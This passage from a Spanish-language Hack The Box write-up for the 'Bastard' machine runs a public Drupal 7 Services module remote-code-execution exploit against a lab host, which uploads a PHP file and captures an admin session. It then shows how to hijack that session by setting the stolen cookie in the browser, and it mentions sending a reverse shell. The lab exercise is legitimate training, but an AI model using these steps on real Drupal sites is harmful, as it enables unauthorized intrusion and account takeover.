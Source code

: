 Ahora procedemos a ejecutar el `exploit`.

```bash
❯ php drupal.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/pwn.php
❯ ls
 drupal.php   session.json   user.json
```

VIsualizamos que el archivo nos lo sube en la ruta principal, lo siguiente sera validar el archivo subido.

![](/assets/images/HTB/htb-writeup-Bastard/drupal4.PNG)


Lo que ahora nos quedaria hacer, es enviarnos una `revershell` a nuestra maquina.


De manera alternativa para ganar acceso vimos que antes, al ejecutar el `exploit`, nos creo un archivo `session.json` que contiene la sesion de usuario `admin`.

```json
{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "nERMEmBNPdBhSKZWnCye941RZL_zlBbAWPEuBs_0W2c",
    "token": "F_Tzii9LQfqeF9ekHCP4qTIGp1VYlIU0fuG2LiIfwIA"
}
```

Podemos cambiar nuestra `cookie` de sesión de manera simple con la opción `inspeccionar`, insertando el `session_name` en el campo `nombre` y el `session_id` en `valor`.
